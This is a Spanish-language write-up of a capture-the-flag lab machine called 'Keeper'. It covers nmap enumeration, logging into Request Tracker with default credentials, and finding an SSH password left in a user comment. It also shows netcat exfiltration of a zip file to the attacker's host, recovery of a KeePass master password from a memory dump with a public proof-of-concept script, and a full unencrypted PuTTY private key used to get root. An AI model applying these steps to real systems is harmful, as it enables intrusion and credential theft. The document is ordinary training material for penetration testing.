









# Información

+ Nombre: Keeper
+ IP: 10.129.229.41
+ OS: Linux
+ Dificultad: Easy

# Enumeración

### Nmap

```
nmap -p- -sS -Pn -n -vvv --open --min-rate 1000 -oG allports 10.129.229.41
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Escaneo detallado:

```
nmap -p22,80 -sCV -oN targeted 10.129.229.41
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### web

Subdominio `tickets.keeper.htb`



En `tickets.keeper.htb` se encuentra un login de Request Tracker:



Pruebo las credenciales predeterminadas para RT:



User: `root`
Password: `password`



# Shell como lnorgaard

Entrando en `Users` se observa al usuario `lnorgaard`





En los comentarios se encuentra una contraseña valida para `ssh`:



`ssh`:

```
lnorgaard@keeper:~$ whoami
lnorgaard
```

flag `user.txt`:

```
lnorgaard@keeper:~$ cat user.txt
56df134ed***********************
```

# PrivEsc

Se encuentra un archivo zip en el directorio home de lnorgaard:

```
RT30000.zip
```

Lo paso a mi maquina con `netcat`:

Me pongo en escucha:

```
nc -lnvp 443 > dump.zip
```

Maquina victima:

```
nc 10.10.14.67 443 < RT30000.zip
```

Compruebo si los los hashes para verificar que recibí correctamente los datos:

```
lnorgaard@keeper:~$ md5sum RT30000.zip
c29f90dbb88d42ad2d38db2cb81eed21  RT30000.zip
```

```
root@kali /home/cangrejo/Escritorio/keeper/Content # md5sum dump.zip
c29f90dbb88d42ad2d38db2cb81eed21  dump.zip
```

```
unzip dump.zip
```

contiene dos archivos, `KeePassDumpFull.dmp` y `passcodes.kdbx`

```
root@kali /home/cangrejo/Escritorio/keeper/Content # ls -l
total 332812
-rw-r--r-- 1 root root  87391651 jul 16 13:21 dump.zip
-rwxr-x--- 1 root root 253395188 may 24  2023 KeePassDumpFull.dmp
-rwxr-x--- 1 root root      3630 may 24  2023 passcodes.kdbx
```

+ `KeePassDumpFull.dmp` es un volcado de memoria de KeePass.
+ `passcodes.kdbx` es una base de datos KeePass encriptada.

KeePass es un gestor de contraseñas gratuito y de código abierto que permite almacenar de forma segura todas tus contraseñas en una base de datos cifrada.

```
keepassxc passcodes.kdbx
```

La base de datos requiere contraseña:



Intento Crackear la contraseña con john:

La herramienta `keepass2john` convierte un archivo `.kdbx` a un hash Crackeable compatible con john:

```
keepass2john passcodes.kdbx
```

```                                   
passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
```

Lo meto en un archivo llamado hash.

Crack con john:

```
john --wordlist=/usr/share/wordlists/rockyou.txt.gz hash
```

Pero no funciona, la contraseña no parece estar en un diccionario.

Use [este](https://github.com/matro7sh/keepass-dump-masterkey) script de GitHub para extraer la contraseña del archivo `KeePassDumpFull.dmp`:

```
python3 poc.py KeePassDumpFull.dmp
```

```
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Buscando en google `●,dgr●d med fl●de` se repite `rødgrød med fløde`:


y la contraseña es valida:

Se puede observar la contraseña para el usuario `root`:



Pero no puedo usarla:

```
root@10.129.229.41's password: 
Permission denied, please try again.
```

También se observa una clave privada PuTTY: 

```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0

```

Lo guardo en un archivo llamado key.

Lo convierto a formato OpenSSH:

```
puttygen key -O private-openssh -o id_rsa
```

```
chmod 600 id_rsa
```

```
ssh -i id_rsa root@10.129.229.41
```

```
root@keeper:~# whoami
root
```

flag `root.txt`:

```
root@keeper:~# cat /root/root.txt
a4a8de9*************************
```

# 🦀
